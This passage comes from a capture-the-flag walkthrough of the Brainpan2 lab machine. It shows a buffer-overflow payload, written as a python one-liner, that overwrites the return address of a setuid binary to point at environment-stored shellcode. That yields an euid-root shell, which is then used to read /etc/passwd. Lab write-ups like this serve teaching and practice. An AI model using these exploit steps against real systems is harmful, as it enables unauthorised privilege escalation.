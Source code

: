 ```C
   printf("%s is at %p\n", argv[1], getenv(argv[1]));                                                 
}              
```
```bash
anansi@brainpan2:~$ ./getenv SHELLCODE             
SHELLCODE is at 0xbffffd4e
```
Nice so let's elevate this time by overwriting the return address with the address of our new environment variable:
```bash
anansi@brainpan2:/home/reynard$ id
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
anansi@brainpan2:/home/reynard$ ./msg_root `python -c 'print "A" * 14 + "\x4e\xfd\xff\xbf"'` blah
$ id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
```




So we have an euid root shell using one of the above methods, but ooh crap is it actually root?
```bash
$ cat /root/flag.txt
cat /root/flag.txt
cat: /root/flag.txt: Permission denied
$ cat /root/whatif.txt
cat /root/whatif.txt
       WHAT IF I TOLD YOU
              ___
            /     \
           | ______\
          (, \_/ \_/
           |   ._. |
           \   --- /
           /`-.__.'
      .---'`-.___|\___
     /                `.

       YOU ARE NOT ROOT?

$ id                                               
id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
$ cat /etc/passwd                                  
cat /etc/passwd                                    
root:x:104:106:root:/root:/bin/bash                
daemon:x:1:1:daemon:/usr/sbin:/bin/sh                                                                 
bin:x:2:2:bin:/bin:/bin/sh                         
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
root :x:0:0:root:/var/root:/bin/bash
---snip---
```

